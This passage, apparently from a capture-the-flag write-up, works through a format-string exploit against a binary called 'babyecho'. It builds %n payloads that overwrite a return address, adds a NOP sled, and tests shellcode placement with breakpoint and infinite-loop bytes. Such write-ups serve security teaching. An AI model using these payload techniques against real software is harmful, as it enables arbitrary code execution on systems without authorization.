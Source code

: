 There we go! The shellcode is stored at 0xffffc6d0!

That means we need to write "d0 c6 ff ff" to the return address.

We start, as always, by writing our 16 bytes worth of addresses: '\\x4c\\xc1\\xff\\xff''\\x4d\\xc1\\xff\\xff''\\x4e\\xc1\\xff\\xff''\\x4f\\xc1\\xff\\xff' - that's the offset each of the 4 bytes of the return address.

The first byte we want to write to the return address is 0xd0 (208), which means that after the 16 bytes of addresses we need an additional 208 - 16 = 192 bytes: '%192x%7$n'

The second byte of our shellcode offset is 0xc6. To go from 0xd0 to 0xc6 we have to wrap around by adding 246 bytes (0xd0 + 246 = 0x01c6): '%246x%8$n'

The third byte is 0xff. 0xff - 0xc6 = 57: '%57x%9$n'

The fourth byte is also 0xff, which means we can either do %256x or just nothing: '%10$n'.

Putting it all together, we have:

```

'\x4c\xc1\xff\xff''\x4d\xc1\xff\xff''\x4e\xc1\xff\xff''\x4f\xc1\xff\xff''%192x%7$n''%246x%8$n''%57x%9$n''%10$n'"$SHELLCODE"
```

We have one small problem, though: when we calculated the address of the shellcode earlier, we didn't take into account the fact that we were going to wind up changing the format string. Because we changed it, buffer is going to be in a slightly different place. We'll solve that the easy way and just pad it with NOPs (no operation - 0x90):

```

'\x4c\xc1\xff\xff''\x4d\xc1\xff\xff''\x4e\xc1\xff\xff''\x4f\xc1\xff\xff''%192x%7$n''%246x%8$n''%57x%9$n''%10$n''\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90'"$SHELLCODE"
```

Now, let's make sure all that's working by using either "\\xcd\\x03" or "\\xcc" as shellcode. These both refer to a debug breakpoint and are really easy to see:

```

$ <span class="in">echo -e '\x91\xc6\xff\xff%99x%7$n\n''\x4c\xc1\xff\xff''\x4d\xc1\xff\xff''\x4e\xc1\xff\xff''\x4f\xc1\xff\xff''%192x%7$n''%246x%8$n''%57x%9$n''%10$n''\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90''\xcc' | ./babyecho > /dev/null</span>
Trace/breakpoint trap (core dumped)
```

Awesome! The second test string I always use is \\xeb\\xfe, which causes an infinite loop:

```

$ <span class="in">echo -e '\x91\xc6\xff\xff%99x%7$n\n''\x4c\xc1\xff\xff''\x4d\xc1\xff\xff''\x4e\xc1\xff\xff''\x4f\xc1\xff\xff''%192x%7$n''%246x%8$n''%57x%9$n''%10$n''\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90''\xeb\xfe' | ./babyecho > /dev/null</span>
...nothing happens...
```
